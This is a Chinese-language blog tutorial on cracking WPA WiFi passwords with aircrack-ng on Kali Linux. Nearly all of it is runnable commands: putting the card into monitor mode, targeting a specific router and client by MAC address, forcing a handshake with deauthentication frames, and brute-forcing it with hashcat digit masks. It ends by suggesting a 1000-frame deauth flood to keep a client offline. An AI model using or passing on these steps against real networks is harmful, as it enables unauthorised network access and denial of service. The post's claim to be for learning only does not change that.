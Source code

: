 ```yaml
---
title: 破解WIFI密码学习
description: 破解WIFI密码学习
date: 2025.04.04
tags: 
  - WIFI
  - Kali
  - Aircrack
categories: 
  - Aircrack
---
```


# 破解WIFI密码学习

## 前言

需要自备无线网卡

此文章仅用于学习使用

## 准备

一个Linux系统(VMware Kali最好)

无线网卡带监听发包的(最好支持5G HZ的，免驱或kali有的驱动的最好)

## 安装aircrack-ng

​`sudo apt-get install aircrack-ng`​

## 步骤

0. 将网卡连接到VMware中

1. ​`ifconfig -a`​ 看有没有wlan0（即无线网卡）
2. ​`airmon-ng start wlan0`​启动监听服务

3. ​`ifconfig -a`​ 看当前无线网卡名称是wlan0还是wlan0mon（有些网卡会在这时候变成wlan0mon，如果变了那么下面的wlan0就写wlan0mon）
4. ​`airodump-ng wlan0/wlan0mon`​扫描wifi，记录目标的BSSID和CH(信道)

    ‍

    ![image](../public/image-20250404191250-b5e8thw.png)

5. ​`airodump-ng -w 保存握手包的文件名 -c 信道(CH) --bssid D6:93:51:05:7A:5C wlan0/wlan0mon`​

    例如:`airodump-ng -w test -c 1 --bssid D6:93:51:05:7A:5C wlan0`​

    记录下面两个数据，第一个是路由器地址(和上一步的一样)，第二个是客户端地址

    ![image](../public/image-20250404192722-gwvrdvz.png)

    Tips:按<Space>暂停/继续,后方便复制
6. 新开一个终端，上面那个不要暂停

    ​`aireplay-ng -0 2 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`​

    ​`-0`​攻击次数，`-a`​路由器地址，`-c`​客户端地址(步骤5中记录的)

    可以多攻击几次，让目标设备重连网络，获取握手包
7. 看之前的终端，出现handshake则成功

    ![image](../public/image-20250404193110-umugp3h.png)
8. 转换成`hccapx`​格式

    ​`hcxpcapngtool -o 输出文件名.hccapx 握手包名.cap`​

    例如:`hcxpcapngtool -o output.hccapx test-01.cap`​
9. hashcat 爆破

    ​`hashcat -m 22000 output.hccapx 字典文件`​

    如果确定纯数字几位的话可以

    ​`hashcat -m 22000 output.hccapx -a 3 ?d?d?d?d?d?d?d?d`

    几个`?d`​就是几位数字

‍

‍

## 注意到

第6步用于`让目标设备重连网络`​，也就是攻击设备使设备断网

因此也就可以`aireplay-ng -0 1000 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`​将攻击次数放大，做到无法让客户端连网的效果(

‍
